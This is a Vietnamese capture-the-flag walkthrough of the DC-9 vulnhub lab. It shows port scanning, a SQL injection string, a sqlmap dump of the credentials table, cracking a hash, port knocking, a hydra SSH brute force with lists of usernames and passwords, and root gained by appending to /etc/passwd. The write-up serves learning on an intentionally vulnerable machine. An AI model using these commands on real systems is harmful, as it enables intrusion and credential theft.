# Extra Labs 9: DC-9 on vulhub

## Description

DC-9 tiếp tục là một phòng Lab được xây dựng có chủ đích nhằm giúp bạn tích lũy thêm kinh nghiệm trong thế giới kiểm thử xâm nhập (penetration testing).
## Mục tiêu tối thượng của thử thách này là chiếm được quyền root và đọc được chiếc flag duy nhất. Các kỹ năng về Linux cũng như sự thành thạo với dòng lệnh (command line) là điều bắt buộc, bên cạnh đó là một chút kinh nghiệm sử dụng các công cụ pentest cơ bản.

Đối với những người mới bắt đầu, Google sẽ là trợ thủ đắc lực, nhưng bạn luôn có thể nhắn tin cho tôi tại @DCAU7 để được hỗ trợ mỗi khi bị "tắc đường". Tuy nhiên, hãy lưu ý rằng: Tôi sẽ không đưa ra đáp án trực tiếp, thay vào đó, tôi sẽ gợi ý cho bạn một ý tưởng để bạn có thể tiếp tục tiến về phía trước.
## Các bước thực hiện

Sử dụng lệnh sudo netdiscover -r 10.130.10.0/24 để tìm địa chỉ IP của máy mục tiêu trong mạng nội bộ:



Sử dụng nmap để quét các cổng đang mở. Kết quả quét sẽ cho thấy máy mục tiêu đang mở 2 cổng: 80 (HTTP) và 20 (SSH)

```bash
nmap -sC -sV -p- 10.130.10.144
```



Truy cập thử vào trang web của máy dc-9:







Có vài page có vẻ thủ vị, ở page search em thử sql injection:

'or 1=1 - --



Nó hiện tất cả danh sách thông tin tương tự như bên info, các thông tin này cũng không hữu ích lắm, em sẽ thử fuzzing, trước tiên phải dùng burp suite để bắt request và payload nó gửi đi trước:



Em lưu lại Request này lại và kết hợp sử dụng sqlmap

```bash
POST /results.php HTTP/1.1
```

```bash
Host: 10.130.10.144
```

```bash
Content-Length: 14
```

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

```bash
Origin: http://10.130.10.144
```

```bash
Content-Type: application/x-www-form-urlencoded
```

```bash
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
```

```bash
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```

```bash
Referer: http://10.130.10.144/search.php?search=moe
```

```bash
Accept-Encoding: gzip, deflate, br
```

```bash
Accept-Language: en-US,en;q=0.9
```

```bash
Connection: close
```

```bash
search=FUZZ
```







*Cách sqlmap kiểu 2:

```bash
sqlmap -u "http://10.130.10.231/results.php" --data="search=keyword" --batch -D users -T UserDetails -C "username,password" --dump --random-agent --threads=5
```

và

Kết quả em tìm thấy user admin và password ở db Staff, trước khi đăng nhập vào Manage, em phải crack chuỗi hash này trước, em sử dụng công cụ online crackstation:

admin:856f5de590ef37314e7c3bdf6f8a66dc



Và chúng ta có tài khoản và mật khẩu

admin:transorbital1



Đăng nhập thành công, nhưng em thấy vài điểm đáng ngờ, có dòng: File does not exist, phải chăng trang này đang cố đọc file nào đó, em thử file trước rồi fuzzing sau:





Well, thử với param file thành công. Ta có thể thấy, có rất nhiều người dùng có thể đăng nhập trên máy nạn nhân, và em đoán có thể có dịch vụ ssh, nhưng như trước nmap không quét ra cổng 22, vậy chắc hẳn nó đang bị ẩn đi. Em điều tra trên google thì phát hiện rằng có một phần mềm tên knock có khả năng giấu cổng 22, em thử tìm file conf của knock:



Và may mắn thay chúng ta có thể đọc được file knockd.conf. Từ file config có thể thấy chuỗi lệnh để khiến cổng 22 mở:

```bash
nc 10.130.10.144 7469
```

```bash
nc 10.130.10.144 8475
```

```bash
nc 10.130.10.144 9842
```



Bây giờ cổng 22 đã mở, em thử bruteforce luôn bằng hydra với các user đã tìm được:

marym

julied

fredf

barneyr

tomc

jerrym

wilmaf

bettyr

chandlerb

joeyt

rachelg

rossg

monicag

phoebeb

scoots

janitor

janitor2



Password lisst

3kfs86sfd

468sfdfsd2

4sfd87sfd1

RocksOff

TC&TheBoyz

B8m#48sd

Pebbles

BamBam01

UrAG0D!

Passw0rd

yN72#dsd

ILoveRachel

3248dsds7s

smellycats

YR3BVxxxw87

Ilovepeepee

Hawaii-Five-0



```bash
hydra -L users.txt -P pass.txt 10.130.10.144 ssh
```



Giờ tìm được 3 tài khoản và mật khẩu, thử đăng nhập luôn:

chandlerb:UrAG0D!

joeyt:Passw0rd

janitor:Ilovepeepee

Điều bất ngờ khi đăng nhập với user janitor, em tìm thấy một thư mục khả nghi:





Không biết mật khẩu của user nào, em lại tiếp tục bruteforce ssh xem sao.





Lại tìm thấy thêm 2 tài khoản, em đăng nhập lần lượt và kiểm tra, mắn mắn có tài khoản fredf:B4-Tru3-001 có quyền sudoer



Chả khai thác gì được ở file này, em tìm thử file test.py kia xem sao



```bash
find / -name "test.py" 2>/dev/null
```



Em tìm được 2 file, điều tra file 1. File này chỉ có quyền đọc thôi, không có quyền sửa. Nhưng đọc nội dung xem nó làm cái gì. Sau câu lệnh else, nó thực hiện đọc nội dung file sys.argv[1] và nối (appent) vào file sys.argv[2], với quyền Root. Hehe, vậy thì giờ em chỉ cần tạo 1 người dùng mới và ghi vào file /etc/passwd:





Cuối cùng cũng chạy được với lệnh:

```bash
sudo /opt/devstuff/dist/test/test /dev/shm/hehe.txt /etc/passwd
```



Well Done